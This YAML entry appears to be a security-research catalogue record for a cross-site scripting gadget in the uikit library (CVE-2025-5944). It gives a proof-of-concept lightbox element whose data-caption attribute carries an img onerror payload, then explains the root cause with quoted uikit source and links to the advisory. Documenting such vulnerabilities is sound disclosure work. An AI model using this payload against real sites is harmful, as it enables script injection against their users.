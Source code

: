 ```yaml
---
description: A lightweight and modular front-end framework for developing fast and powerful web interfaces.
github: uikit/uikit
gadgets:
  ≥2.18.0:
    cve: CVE-2025-5944
    authors:
      - github:maudud-bdthemes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - a-tag
      - data-attr
      - any-timing
    pocs:
      - description: The [uikit](https://github.com/uikit/uikit) library uses the `data-caption` attribute to inject HTML content. Because the event that triggers this behavior is delegated from the document, it can be activated at any time. (This also applies to elements using the `uk-lightbox` attribute directly)
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/uikit/3.23.11/js/uikit.min.js"></script>

          <!-- user input -->
          <x data-uk-lightbox>
            <a data-caption="<img src=x onerror=alert(document.domain);>">Click Me</a>
          </x>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/uikit/uikit/blob/0d7a36576ccb0aec048b3c4ed62eca4ebee9aab0/src/js/util/event.js#L87">https://github.com/uikit/uikit/blob/0d7a36576ccb0aec048b3c4ed62eca4ebee9aab0/src/js/util/event.js#L87</a>

      ```javascript
      function delegate(selector, listener) {
          return (e) => {
              const current =
                  selector[0] === '>'
                      ? findAll(selector, e.currentTarget)
                            .reverse()
                            .find((element) => element.contains(e.target))
                      : e.target.closest(selector);

              if (current) {
                  e.current = current;
                  listener.call(this, e);
                  delete e.current;
              }
          };
      }
      ```

      Source: <a target="_blank" href="https://github.com/uikit/uikit/blob/0d7a36576ccb0aec048b3c4ed62eca4ebee9aab0/src/js/components/lightbox-panel.js#L237">https://github.com/uikit/uikit/blob/0d7a36576ccb0aec048b3c4ed62eca4ebee9aab0/src/js/components/lightbox-panel.js#L237</a>

      ```javascript
      handler(e) {
          html($(this.selCaption, this.$el), this.getItem().caption || '');
          html(
              $(this.selCounter, this.$el),
              this.t('counter', this.index + 1, this.slides.length),
          );

          for (let j = -this.preload; j <= this.preload; j++) {
              this.loadItem(this.index + j);
          }

          if (this.isToggled()) {
              return;
          }

          this.draggable = false;

          e.preventDefault();

          this.toggleElement(this.$el, true, false);

          this.animation = Animations.scale;
          removeClass(e.target, this.clsActive);
          this.stack.splice(1, 0, this.index);
      },
      ```
    links:
      - https://github.com/uikit/uikit/issues/5162
      - https://security.snyk.io/vuln/SNYK-JS-UIKIT-10587793
---
```

